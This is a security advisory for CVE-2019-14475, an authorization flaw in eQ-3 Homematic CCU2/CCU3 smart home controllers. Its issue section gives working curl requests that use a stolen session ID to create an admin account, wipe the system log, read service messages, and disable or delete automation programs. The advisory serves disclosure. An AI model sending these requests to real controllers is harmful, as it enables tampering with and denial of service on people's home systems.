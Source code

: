 ```yaml
---
layout: post
title:  "CVE-2019-14475 eQ-3 Homematic CCU2 and CCU3 use session IDs for authentication but lack authorization checks. An attacker can obtain a session ID from CVE-2019-9583, resulting in the ability to read the service messages, clear the system protocol, create a new but not working user account in the system, modify/delete internal programs, etc. pp."
date:   2019-08-03 22:50:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-14475
- Author: psytester
- Title: eQ-3 Homematic CCU2 and CCU3 use session IDs for authentication but lack authorization checks. An attacker can obtain a session ID from CVE-2019-9583, resulting in the ability to read the service messages, clear the system protocol, create a new but not working user account in the system, modify/delete internal programs, etc. pp.
- Vulnerability Type: CWE-285 Improper Authorization
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 03.08.2019
- Updated: --
- Vendor: eQ-3 AG	
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 07.05.2019
- Vendor confirmation: N.A.
- Vendor patch: N.A.
- Vendor Reference: N.A.
- Affected Firmware version of CCU2: 2.47.12, 2.47.15 tested, but certainly even before that too
- Affected Firmware version of CCU3: 3.47.10, 3.47.15 tested, but certainly even before that too

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>


Past [eQ-3 press release](https://www.eq-3.de/aktuelles/newsreader/eq-3-schliesst-sicherheitsluecken-in-der-ccu.html) about taking security updates seriously (in German only):<br>
[...]<br>
eQ-3 ist es wichtig, dass auch solche Lücken geschlossen werden, die für die meisten Installationen keine Rolle spielen.<br> 
[...]<br>
Obwohl nur Nutzer betroffen sind, die gegen Sicherheitshinweise von eQ-3 verstoßen oder seit mehreren Jahren keine Sicherheitsupdates installiert haben, gibt eQ-3 solchen Fällen hohe Priorität und behebt entsprechende Sicherheitslücken schnellstmöglich nach Bekanntwerden in neuen Software-Versionen und Hotfixes.<br>
[...]

# Issue Description

While analyzing the CCU web interface based on given page objects and the WebUI calls behind in browser developer console, an Improper Access Control vulnerability has been identified. With obtaining a SessionID from CVE-2019-9583 it can be exploited in order to start an Denial of Service and Information Disclosure at the WebUI. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>
<br>
First get a SessionID from any page detected by CVE-2019-9583<br>
<br>
Create your own admin level (```level = 8```) account 'AddOwnAdminAccount' - but (un)fortunately this account does not work, because the password is not set. Bad enough that it is partly possible:<br>
```curl -X POST -i 'http://1.2.3.4/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "saveUser";integer iUserid = 0;string userName = "AddOwnAdminAccount";string firstName = ""; string lastName = "";string sSysVars = "";integer iPwChanged = 0; string pw = "myPassword";integer iLogin = 0;integer dev = 0;integer level = 8;boolean bEasy = true; string phone = "";string mail = "";]]></prototypejs>'```<br>
<br>
But with such SessionID you can really do other tasks on the system!<br>
<br>
Just some examples...<br>
Clear the system protocol:<br>
```curl -X POST -i 'http://1.2.3.4/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "ClearHistoryData";]]></prototypejs>'```<br>
<br>
Read the service messages (device communication errors, etc.):<br>
```curl -X POST -i 'http://IP_der_CCU/esp/system.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "UpdateUI";]]></prototypejs>'```<br>
<br>
manipulation of programs/scripts (Home page > Programs and connections > Programs)<br>
a program/script is identified by an ID, you may just guess the number or you iterate through a range.
This example is manipulating the program/script ```id = "1603"```<br>
deactivate a program/script:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetActive";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Set a program/script to inoperable:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetOperate";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Set a program/script to invisible:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data '<prototypejs><![CDATA[string action = "SetVisible";string id = "1603";string value = "false";]]></prototypejs>'```<br>
<br>
Delete a program/script:<br>
```curl -X POST -i 'http://1.2.3.4/esp/programs.htm?sid=@JLS011UTXB@' --data 'string action = "DeleteProgram";string id = "1603";'```<br>


# CVE

[CVE-2019-14475](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14475)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
